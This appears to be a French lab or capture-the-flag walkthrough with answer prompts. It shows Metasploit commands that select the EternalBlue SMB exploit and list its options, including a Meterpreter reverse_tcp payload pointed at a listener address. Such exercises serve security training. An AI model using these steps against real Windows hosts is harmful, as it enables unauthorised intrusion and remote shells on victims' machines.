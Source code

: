 ```console
Réponse : 
```

Sélectionner l'attaque :
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

* Afficher les options et définissez la valeur pour l'option nécessaire. 
* Quel est le nom de cette propriété ?
```
msf6 > exploit(windows/smb/ms17_010_eternalblue) > show options
```

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.30.2.112     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

```console
Réponse : 
```

Pour mettre à jour une propriété :
```
set _OPTION_ _VALUE_
```
